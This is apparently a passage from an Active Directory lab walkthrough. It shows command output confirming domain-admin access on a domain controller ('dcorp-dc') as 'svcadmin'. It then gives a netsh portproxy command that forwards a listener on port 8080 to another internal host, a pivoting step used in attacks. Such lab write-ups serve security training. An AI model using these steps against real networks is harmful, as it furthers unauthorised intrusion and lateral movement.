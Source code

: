 `whoami`:
```
dcorp\svcadmin
```

`hostname`:
```
dcorp-dc
```

`whoami /groups`:
```
C:\Users\svcadmin>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                          Attributes
============================================ ================ ============================================ ===============================================================
Everyone                                     Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                       Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
dcorp\Domain Admins📌                        Group            S-1-5-21-719815819-3726368948-3917688648-512 Mandatory group, Enabled by default, Enabled group✅
Authentication authority asserted identity   Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
dcorp\Denied RODC Password Replication Group Alias            S-1-5-21-719815819-3726368948-3917688648-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```

`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`
